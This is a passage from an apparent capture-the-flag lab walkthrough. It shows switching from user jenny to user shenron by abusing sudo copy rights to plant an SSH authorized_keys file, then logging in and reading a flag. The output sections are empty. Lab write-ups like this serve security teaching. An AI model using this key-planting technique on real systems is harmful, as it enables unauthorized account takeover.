



4.6 Switch to shenron user (Catch the 1st flag)
1. Show the jenny's sudo rights.
jenny@shenron:~$sudo -l
Output:

• “jenny” has right to copy on shenron’s privileges.
• You can't copy the “id_rsa” file directly to shenron’s directory.
• Copy the file to “/tmp”.
• “shenron” can further copy that to his “.ssh” directory
2. Run the following commands on the “Reverse Shell”.
jenny@shenron:~$cp /home/jenny/.ssh/authorized_keys /tmp/
jenny@shenron:~$sudo -u shenron cp /tmp/authorized_keys /home/shenron/.ssh/
jenny@shenron:~$sudo -u shenron cp /tmp/authorized_keys /home/shenron/.ssh/
3. Login into “shenron’s” account via SSH.
jenny@shenron:~$ssh shenron@192.168.12.38 -i ~/.ssh/id_rsa
Output:

4. List the files.
shenron@shenron:~$ls -al
Output:

5. Show the flag.
shenron@shenron:~$cat local.txt
Output:
